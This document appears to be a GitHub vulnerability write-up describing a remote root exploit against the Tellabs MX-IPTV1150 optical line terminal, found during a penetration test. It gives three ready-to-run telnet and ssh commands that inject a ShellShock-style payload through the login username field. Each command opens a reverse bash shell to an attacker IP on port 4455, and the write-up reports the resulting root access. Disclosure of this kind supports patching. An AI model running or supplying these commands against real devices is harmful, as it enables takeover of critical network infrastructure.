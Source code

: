 # tellabs_rce
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

[Product]

	Vendor: Tellabs

	Model: MX-IPTV1150

	System Version: FP29.2_015873

	Release: ONT709.2.50.12

	Date: 180722

Steps to reproduce were rather simple, and based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
	The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
	The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constraints, was unable to test further.


ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
	After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Laboratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.
